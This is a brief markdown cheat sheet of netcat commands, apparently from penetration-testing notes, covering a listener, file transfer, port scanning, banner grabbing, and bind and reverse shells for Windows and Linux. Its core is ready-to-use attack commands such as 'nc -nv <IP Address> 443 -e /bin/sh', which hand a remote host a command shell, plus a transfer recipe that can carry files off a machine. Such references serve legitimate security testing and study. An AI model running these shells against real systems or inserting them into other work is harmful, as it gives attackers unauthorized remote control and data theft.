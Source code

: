 # General Listener
Unless otherwise noted, most of these will require an established listener:
```
nc -nvlp 1337
```

# Transfer a file
---
Sender
```
nc -nv <IP Address> < input.txt
```
Recipient 
```
nc -lvp 4444 >output.txt
```

# Set up a Netcat Bind Shell (Windows)
---
```
nc -lvp 4444 -e cmd.exe
```

# Set up a Netcat Bind Shell (Linux)
---
```
nc -lvp 4444 -e /bin/sh
```

# Set up a Netcat Reverse Shell (Windows)
---
```
nc -nv <IP Address> 443 -e cmd.exe
```

# Set up a Netcat Reverse Shell (Linux)
---
```
nc -nv <IP Address> 443 -e /bin/sh
```

# Netcat as a Port Scanner
---
```
nc -z <IP Address> <Port Range in abc - xyz format>
```

# Netcat as a Banner Grabber
---
```
echo "" | nc -nv -w1 <IP Address> <Ports>
```